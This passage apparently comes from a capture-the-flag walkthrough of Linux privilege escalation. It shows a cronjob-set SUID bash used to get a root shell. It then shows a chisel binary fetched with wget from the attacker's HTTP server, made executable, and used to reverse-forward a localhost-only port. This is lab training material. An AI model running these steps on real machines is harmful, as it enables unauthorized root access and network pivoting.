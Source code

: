 - Wait for the cronjob runs, and then spawn a root shell:

```
king@ubuntu:~$ ls -lah /bin/bash
-rwsr-sr-x 1 root root 1014K Jul 12  2019 /bin/bash

king@ubuntu:~$ /bin/bash -p
bash-4.3# whoami;hostname;id;ip a
root
ubuntu
uid=1000(king) gid=1000(king) euid=0(root) egid=0(root) groups=0(root),4(adm),24(cdrom),30(dip),46(plugdev),114(lpadmin),115(sambashare),1000(king)
[...]
2: eth0: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 9001 qdisc pfifo_fast state UP group default qlen 1000
    link/ether 02:28:66:4e:ff:e7 brd ff:ff:ff:ff:ff:ff
    inet 10.10.125.206/16 brd 10.10.255.255 scope global eth0
       valid_lft forever preferred_lft forever
    inet6 fe80::28:66ff:fe4e:ffe7/64 scope link 
       valid_lft forever preferred_lft forever
```

We're root! :D

## king to root

In listing all listening ports via `netstat`, we can see that port 8080 is open on localhost:

```
king@ubuntu:~$ netstat -tunlp
[...]
Proto Recv-Q Send-Q Local Address           Foreign Address         State       PID/Program name
tcp        0      0 127.0.0.1:8080          0.0.0.0:*               LISTEN      -               
```

Let's do a local port forwarding via `chisel`:

- Transfer `chisel` to the target machine:

```
┌──(root💀siunam)-[/opt/chisel]
└─# python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...

king@ubuntu:~$ wget http://10.18.61.134/chiselx64 -O /tmp/chisel;chmod +x /tmp/chisel
```

- Setup a server listener on port 8888:

```
┌──(root💀siunam)-[/opt/chisel]
└─# ./chiselx64 server -p 8888 --reverse
```

- Connect to the server listener via client mode:

```
king@ubuntu:~$ /tmp/chisel client 10.18.61.134:8888 R:8001:127.0.0.1:8080
```
